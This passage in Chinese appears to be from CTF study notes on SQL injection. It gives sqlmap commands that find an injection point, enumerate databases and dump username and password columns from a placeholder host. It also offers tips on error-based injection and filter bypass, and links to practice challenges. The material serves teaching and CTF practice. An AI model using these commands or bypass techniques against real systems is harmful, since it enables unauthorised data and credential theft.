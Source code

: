 使用 **SQLMap**，也是一种方法

SQLMap 是一个开源的渗透测试工具，可以用来进行自动化检测，利用 SQL 注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎，针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

---

```
# 检查注入点：
sqlmap -u http://host/check.php?username=admin&password=123

# 爆所有数据库信息：
sqlmap -u http://host/check.php?username=admin&password=123 --dbs

# 爆当前数据库信息：
sqlmap -u http://host/check.php?username=admin&password=123 --current-db

# 指定库名表名列出所有字段，test为数据库名 admin为表名
sqlmap -u http://host/check.php?username=admin&password=123 -D test -T admin --columns

# 指定库名表名字段dump出指定字段 id 和 password
sqlmap -u http://host/check.php?username=admin&password=123 -D test -T admin -C id，password --dump

```

---

## 总结

1. 并不是所有的SQL注入题型都有一个输入框，只要是传递参数给后端，都有可能注入。包括 Cookie 注入，POST 注入、GET 注入、搜索注入等
2. 多熟悉数据库的内置函数，包括 user(), database(), version(), concat(), group_concat(), substring() 等等

---


3. 掌握报错注入的一些技巧，比如随便输入一个不存在的函数，也许可以得到数据库名称，如 `SELECT * FROM users where id = flag()`，得到报错信息 `FUNCTION test_db.flag does not exist`，得到数据库名为 `test_db`
4. 熟悉常见的绕过技巧，比如大小写替换、注释符绕过、函数绕过、符号代替关键字（&&代替AND）等


---

SQL 注入练习题

- [[SUCTF 2019]EasySQL 1](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)

- [[极客大挑战 2019]BabySQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

- [[极客大挑战 2019]HardSQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

- [[极客大挑战 2019]FinalSQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]FinalSQL)

---
